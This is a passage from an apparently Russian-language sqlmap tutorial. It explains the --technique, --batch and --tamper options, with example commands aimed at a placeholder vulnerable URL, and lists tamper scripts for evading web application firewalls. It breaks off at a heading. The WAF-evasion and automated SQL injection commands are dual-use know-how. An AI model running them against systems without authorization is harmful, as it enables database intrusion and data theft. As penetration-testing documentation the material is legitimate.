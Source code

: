 ```
python sqlmap.py -u "http://example.com/vulnerable.php?id=1" --technique=BEUST
```

#### Автоматический режим

**--batch**:  Этот параметр позволяет SQLMap работать в полностью автоматическом режиме, без запроса пользовательского ввода. Это полезно, когда вы хотите запустить SQLMap в фоновом режиме или в автоматизированных скриптах.

Пример использования:

```
python sqlmap.py -u "http://example.com/vulnerable.php?id=1" --batch
```

#### Обход защиты

**--tamper**:  Этот параметр позволяет указать скрипты для обхода различных фильтров и WAF (Web Application Firewall). Скрипт space2comment заменяет пробелы в SQL-запросах комментариями, чтобы обойти фильтры, которые блокируют пробелы в SQL-запросах.

```
python sqlmap.py -u "http://example.com/vulnerable.php?id=1" --tamper=название_скрипта
```

Пример использования:

```
python sqlmap.py -u "http://example.com/vulnerable.php?id=1" --tamper=space2comment
```

Вы можете указать несколько tamper-скриптов, разделяя их запятыми. Пример тестирование с несколькими tamper-скриптами:

```
python sqlmap.py -u "http://example.com/vulnerable.php?id=1" --batch --tamper=space2comment,randomcase
```

Полезные tamper-скрипты

- space2comment: Заменяет пробелы комментариями.
- randomcase: Меняет регистр символов в SQL-запросах случайным образом.
- between: Добавляет "BETWEEN" выражение, чтобы обойти некоторые WAF.

Полный список доступных tamper-скриптов можно найти в директории tamper в папке с SQLMap, или используя команду:

```
python sqlmap.py --tamper=LIST
```

Эти параметры значительно расширяют возможности SQLMap, позволяя адаптировать его под различные сценарии и обойти защитные механизмы, которые могут применяться на целевом веб-приложении.

##### Примеры tamper-скриптов

Вот несколько tamper-скриптов и краткое описание их работы:

**space2comment.py:**
